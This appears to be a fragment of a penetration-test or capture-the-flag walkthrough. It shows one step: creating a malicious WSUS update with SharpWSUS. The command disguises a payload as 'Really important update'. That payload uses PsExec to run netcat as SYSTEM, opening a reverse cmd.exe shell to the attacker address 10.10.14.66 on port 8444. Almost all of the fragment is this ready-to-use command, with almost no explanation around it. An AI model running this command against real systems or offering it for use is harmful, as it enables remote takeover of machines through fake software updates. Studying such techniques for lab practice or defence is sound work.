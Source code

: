 - Create the malicious WSUS update:

```bash
.\SharpWSUS.exe create /payload:"C:\Users\sflowers\Downloads\PsExec64.exe" /args:"-accepteula -s -d c:\\users\\sflowers\\Downloads\\nc.exe -e cmd.exe 10.10.14.66 8444" /title:"Important Update4" /date:2024-01-02 /kb:500130 /rating:Important /description:"Really important update" /url:"https://google.com"

```

![image50](../resources/558b5d2fef64473a8694d37c839d51d5.png)
